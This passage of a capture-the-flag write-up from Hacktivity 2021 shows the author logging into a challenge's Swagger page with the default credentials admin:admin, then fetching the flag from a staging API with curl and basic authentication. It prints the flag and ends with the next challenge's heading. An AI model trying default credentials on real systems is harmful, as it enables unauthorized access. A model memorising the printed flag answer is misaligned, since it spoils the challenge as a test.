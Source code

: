 ![](image/Hacktivity2021/1632053707805.png)

Playing around with the commonly used username and password, `admin:admin` was a success.

![](image/Hacktivity2021/1632055353210.png)

I tried searching for `./flag` on the Swagger webpage but nothing was returned

![](image/Hacktivity2021/swaggy_6.png)

I decided to try using cURL instead

```
shiro in Users/User/Downloads
-> curl http://staging-api.congon4tor.com:7777/
No flag sorry%
shiro in Users/User/Downloads
-> curl http://staging-api.congon4tor.com:7777/flag
{"error":"Missing authorization header"}
shiro in Users/User/Downloads
-> curl -u admin:admin http://staging-api.congon4tor.com:7777/flag
{"flag":"flag{e04f962d0529a4289a685112bf1dcdd3}"}
```

# CTF Name – Tsunami

-   **Category:** Warmups
-   **Points:** 50
